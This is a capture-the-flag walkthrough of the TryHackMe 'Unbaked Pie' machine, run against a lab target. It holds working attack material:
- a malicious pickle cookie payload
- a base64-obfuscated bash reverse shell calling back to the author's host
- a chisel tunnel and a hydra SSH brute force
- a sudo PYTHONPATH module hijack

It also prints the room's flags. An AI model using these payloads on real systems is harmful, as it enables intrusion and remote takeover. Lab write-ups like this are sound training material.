## TL;DR

In this challenge we start with strange cookie that gives us `pickling`, which leads to `RCE`.
We escape the container, using `ssh` port found on another ip and brute forcing the password of `ramsey`.

We move to user `oliver` using sudo on `vuln.py`, and simply overriding this file.

Lastly, we move to `root` using sudo on python script, and control the environment variables, include `PYTHONPATH`

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `5003` with WSGIServer http server
```bash
PORT     STATE SERVICE REASON         VERSION                                                                                                                
5003/tcp open  http    syn-ack ttl 61 WSGIServer 0.2 (Python 3.8.6)                                                                                          
|_http-server-header: WSGIServer/0.2 CPython/3.8.6                                                                                                           
|_http-title: [Un]baked | /                                                                                                                                  
| http-methods:                                                                                                                                              
|_  Supported Methods: GET HEAD OPTIONS
```

I added `unbakedpie.thm` to my `/etc/hosts`.

### Exploit pickling to get RCE

When we visit `http://unbakedpie.thm:5003/`, we can see the search box. I searched for "asd"


I noticed we got back some cookie that holds base64 string:
```bash
Cookie:  search_cookie=gASVBwAAAAAAAACMA2FzZJQu; Path=/
```



I tried to decode it, and view what it contains
```bash
┌──(agonen㉿kali)-[~/thm/UnbakedPie]
└─$ echo 'gASVBwAAAAAAAACMA2FzZJQu' | base64 -d | xxd 
00000000: 8004 9507 0000 0000 0000 008c 0361 7364  .............asd
00000010: 942e  
```


It looks like some serialized data, since it is based on python, I guessed this is pickling.
I verified with this snippet.
```py
import pickle
import base64

payload = 'gASVBwAAAAAAAACMA2FzZJQu'

data = pickle.loads(base64.b64decode(payload.encode()))
print(type(data), data)
```



So, we might have `RCE` potential here, using pickling.
Let's create the pickle:
```py
import pickle
import base64
import os

cmd = "printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash"

class Exploit(object):
	def __reduce__(self):
		return (os.system, ((cmd),))

with open("exploit.pickle", "wb") as f:
	pickle.dump(Exploit(), f, pickle.HIGHEST_PROTOCOL)
```

I already pasted the payload from penelope for reverse shell.
```bash
┌──(agonen㉿kali)-[~/thm/UnbakedPie]
└─$ python3 exploit.py   
                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/UnbakedPie]
└─$ cat exploit.pickle | base64 -w0 | xclip -sel clip
```



This is the payload we get:
```bash
gAWVcQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFZwcmludGYgS0dKaGMyZ2dQaVlnTDJSbGRpOTBZM0F2TVRreUxqRTJPQzR4TmpRdU1qUTRMelEwTkRRZ01ENG1NU2tnSmc9PXxiYXNlNjQgLWR8YmFzaJSFlFKULg==
```

After sending the cookie, we got the reverse shell



### Docker escape using brute force ssh to user ramsey

We can easily detect we are inside docker container, playing as root



we can see our ip is `172.17.0.2`, so there is probably also host at `172.17.0.2`
```bash
root@8b39a559b296:~# cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      8b39a559b296
```

Also, under `/root` I found the file `.bash_history`, which contains log that said someone tried to `ssh ramsey@172.17.0.1`
```bash
root@8b39a559b296:~# cat .bash_history                                                                                                                       
nc                                                                                                                                                           
exit                                                                                                                                                         
ifconfig                                                                                                                                                     
ip addr                                                                                                                                                      
ssh 172.17.0.1                                                                                                                                               
ssh 172.17.0.2                                                                                                                                               
exit                                                                                                                                                         
ssh ramsey@172.17.0.1                                                                                                                                        
exit                                                                                                                                                         
cd /tmp                                                                                                                                                      
wget https://raw.githubusercontent.com/moby/moby/master/contrib/check-config.sh                                                                              
chmod +x check-config.sh                                                                                                                                     
./check-config.sh                                                                                                                                            
nano /etc/default/grub                                                                                                                                       
vi /etc/default/grub                                                                                                                                         
apt install vi                                                                                                                                               
apt update                                                                                                                                                   
apt install vi                                                                                                                                               
apt install vim                                                                                                                                              
apt install nano                                                                                                                                             
nano /etc/default/grub                                                                                                                                       
grub-update                                                                                                                                                  
apt install grub-update                                                                                                                                      
apt-get install --reinstall grub                                                                                                                             
grub-update                                                                                                                                                  
exit                                                                                                                                                         
ssh ramsey@172.17.0.1                                                                                                                                        
exit                                                                                                                                                         
ssh ramsey@172.17.0.1                                                                                                                                        
exit                                                                                                                                                         
ls                                                                                                                                                           
cd site/                                                                                                                                                     
ls                                                                                            
cd bakery/                                                                                    
ls                                                                                            
nano settings.py                                                                                         
exit                                                                                                     
ls                                                                                                       
cd site/                                       
ls                                             
cd bakery/                                     
nano settings.py                               
exit                                           
apt remove --purge ssh                              
ssh                                                 
apt remove --purge autoremove open-ssh*                                                                               
apt remove --purge autoremove openssh=*                                                                               
apt remove --purge autoremove openssh-*                                                                               
ssh                                                        
apt autoremove openssh-client                              
clear                                                      
ssh                                                        
ssh                                                        
ssh                                                        
exit    
```


I uploaded `chisel` to the machine, and then set up the client:
```bash
./chisel-PQmgSKyT client 192.168.164.248:1234 R:2222:172.17.0.1:22
```

On our machine, I set up the listener:
```bash
chisel server --reverse -p 1234
```

Lastly, I brute forced the password using `hydra`:
```bash
┌──(agonen㉿kali)-[~/thm/UnbakedPie]
└─$ hydra -l ramsey -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1:2222
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-26 15:09:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: ramsey   password: 12345678
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-26 15:09:39
```



So, the password of `ramsey` is `12345678`.

Note that i also found some sqlite3 db that contained that hash of `ramsey`, however I didn't manage to crack it, so I didn't spoke about this way here.

Now, we can login via ssh:
```bash
ssh ramsey@127.0.0.1 -p 2222 # 12345678
```



and grab the user flag:
```bash
ramsey@unbaked:~$ cat user.txt 
THM{ce778dd41bec31e1daed77ebebcd7423}
```

### Move to user oliver using sudo on vuln.py and overriding it

I checked for sudo permissions:
```bash
ramsey@unbaked:~$ sudo -l
[sudo] password for ramsey: 
Matching Defaults entries for ramsey on unbaked:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ramsey may run the following commands on unbaked:
    (oliver) /usr/bin/python /home/ramsey/vuln.py
```

We can execute `/home/ramsey/vuln.py` as user `oliver`.
The point is to exploit some sink, since it contains this `eval` command:
```bash
ramsey@unbaked:~$ cat vuln.py | grep eval
                        TOTAL = eval(LISTED)
```

However, we control our home folder, it means we might can't write to the file, but we do can delete it.



Let's delete the file, and then add our penelope payload into it:
```bash
ramsey@unbaked:~$ rm vuln.py 
rm: remove write-protected regular file 'vuln.py'? y
ramsey@unbaked:~$ echo 'import os; os.system("printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash")' > vuln.py 
ramsey@unbaked:~$ sudo -u oliver /usr/bin/python /home/ramsey/vuln.py
```



and on our penelope:



### Privilege Escalation to Root using python execute as sudo and change PYTHONPATH

I checked for sudo permissions:
```bash
oliver@unbaked:~$ sudo -l
Matching Defaults entries for oliver on unbaked:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User oliver may run the following commands on unbaked:
    (root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py
```

Okay, we can execute `/opt/dockerScript.py` as root, notice the `SETENV` is set.



This is `/opt/dockerScript.py`
```bash
oliver@unbaked:~$ cat /opt/dockerScript.py
import docker

# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)
```

Okay, I tried to created `docker.py`, and then it'll use the script I created as package:
```bash
oliver@unbaked:~$ cd /tmp
oliver@unbaked:/tmp$ echo -e 'import os;os.system("bash")' > docker.py
oliver@unbaked:/tmp$ sudo /usr/bin/python /opt/dockerScript.py
Traceback (most recent call last):
  File "/opt/dockerScript.py", line 1, in <module>
    import docker
ImportError: No module named docker
```

The payload I tried to put is `import os;os.system("bash")`. However, the problem it isn't searching for the package on `/tmp` folder.



That's where the `SETENV` get into the picture, we can control the `PYTHONPATH` variable, and then it'll load the package from `/tmp`:
```bash
sudo PYTHONPATH=/tmp /usr/bin/python /opt/dockerScript.py
```



and we got the root flag:
```bash
root@unbaked:/root# cat root.txt 
CONGRATS ON PWNING THIS BOX!
Created by ch4rm & H0j3n
ps: dont be mad us, we hope you learn something new

flag: THM{1ff4c893b3d8830c1e188a3728e90a5f}
```